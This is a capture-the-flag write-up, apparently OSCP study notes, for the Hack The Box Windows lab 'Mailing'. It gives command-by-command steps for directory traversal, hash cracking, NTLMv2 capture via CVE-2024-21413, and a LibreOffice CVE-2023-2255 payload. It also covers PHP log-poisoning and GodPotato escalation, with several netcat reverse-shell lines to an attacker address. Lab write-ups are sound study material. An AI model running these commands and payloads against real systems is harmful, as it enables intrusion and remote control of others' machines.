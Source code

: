 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:
    
    - File‑read/dir‑traversal via `download.php`
    - CVE‑2024‑21413 Outlook/Windows Mail NTLMv2 capture
    - WinRM & SMB auth bypass
    - CVE‑2023‑2255 LibreOffice document RCE
    - Log‑poisoning → webshell include → GodPotato
        

**Open Ports:**  
[SMTP](https://chatgpt.com/c/SMTP) 25/tcp  
[HTTP](https://chatgpt.com/c/HTTP) 80/tcp  
[POP3](https://chatgpt.com/c/POP3) 110/tcp  
[IMAP](https://chatgpt.com/c/IMAP) 143/tcp  [IMAPS](https://chatgpt.com/c/IMAPS) 993/tcp  
[SMTPS](https://chatgpt.com/c/SMTPS) 465/tcp  [Submission](https://chatgpt.com/c/Submission) 587/tcp  
[SMB](https://chatgpt.com/c/SMB) 445/tcp  
[WinRM](https://chatgpt.com/c/WinRM) 5985/tcp

**Tools:**  
nmap, ffuf, feroxbuster, curl, smbclient, netexec, Responder, crackstation, hashcat, swaks, smtplib, evil‑winrm, nc, PowerShell, LibreOffice

---

## Recon 🔍

```bash
nmap -p- --min-rate 10000 10.10.11.14
nmap -p 25,80,110,135,139,143,445,465,587,993,5040,5985 -sCV 10.10.11.14
ffuf -u http://10.10.11.14 -H "Host: FUZZ.mailing.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
feroxbuster -u http://mailing.htb -x php,aspx
```

---

## Shell as maya 🐚

1. **Dir‑Traversal File Read**
    
    ```bash
    curl 'http://mailing.htb/download.php?file=../../windows/system32/drivers/etc/hosts'
    curl 'http://mailing.htb/download.php?file=../../Program+Files+(x86)/hMailServer/bin/hMailServer.ini'
    ```
    
2. **Crack hMailServer MD5** → `homenetworkingadministrator`
    
3. **SMTP Auth**
    
    ```bash
    swaks --auth-user 'administrator@mailing.htb' --auth LOGIN \
          --auth-password homenetworkingadministrator --quit-after AUTH --server mailing.htb
    ```
    
4. **CVE‑2024‑21413 NTLMv2 Capture**
    
    - Send malicious HTML email (Outlook/Windows Mail PoC)
        
    - Run Responder on tun0 → capture `maya` NTLMv2 hash
        
    - Crack with hashcat → `m4y4ngs4ri`
        
5. **SMB & WinRM Access**
    
    ```bash
    netexec smb mailing.htb -u maya -p m4y4ngs4ri  
    evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri  
    ```
    

---

## Shell as localadmin 👤

1. **Enumerate SMB Shares** → `Important Documents` (read/write)
    
2. **CVE‑2023‑2255 LibreOffice RCE**
    
    ```bash
    python CVE-2023-2255.py \
      --cmd 'cmd.exe /c C:\ProgramData\nc64.exe -e cmd.exe 10.10.14.6 443' \
      --output exploit.odt
    smbclient '//mailing.htb/Important Documents' -U maya -P m4y4ngs4ri \
      -c 'put exploit.odt; put /opt/nc.exe/nc64.exe'
    ```
    
3. **Deliver & Execute**
    
    ```ps1
    copy "\\Important Documents\exploit.odt" C:\Users\maya\Desktop
    # Open in LibreOffice → reverse shell back to attacker
    ```
    

---

## Shell as defaultapppool 🌐

1. **Log‑Poisoning Webshell**
    
    ```bash
    telnet mailing.htb 25
    HELO <?php system($_REQUEST['cmd']); ?>
    ```
    
2. **Include via download.php**
    
    ```bash
    curl 'http://mailing.htb/download.php?file=../../progra~2/hmailserver/logs/hmailserver_2024-09-05.log&cmd=\programdata\nc64.exe+10.10.14.6+443+-e+cmd.exe'
    ```
    
3. **Reverse Shell** → `iis apppool\defaultapppool`
    

---

## Shell as SYSTEM 👑

1. **GodPotato on SeImpersonatePrivilege**
    
    ```bash
    gp.exe -cmd "\programdata\nc64.exe -e cmd.exe 10.10.14.6 443"
    ```
    
2. **SYSTEM** → read `root.txt`
    

---

## Actions Learned 🎓

- Directory‐traversal to leak configs & source
    
- MD5 hash cracking for admin creds
    
- NTLMv2 capture via CVE‑2024‑21413 & Responder
    
- SMB/WinRM pivot with cracked creds
    
- LibreOffice macro RCE (CVE‑2023‑2255) via SMB share
    
- Log‑poisoning to plant PHP shell in hMailServer logs
    
- GodPotato exploitation of SeImpersonatePrivilege
    

---

## References 🔗

- CVE-2024-21413 Outlook/Windows Mail RCE PoC
    
- CVE-2023-2255 LibreOffice “floating frames” RCE
    
- hMailServer .ini format & defaults
    
- HackTricks: 7‑Zip/PowerShell wildcards & symlinks
    
- Responder & hashcat NTLMv2 cracking techniques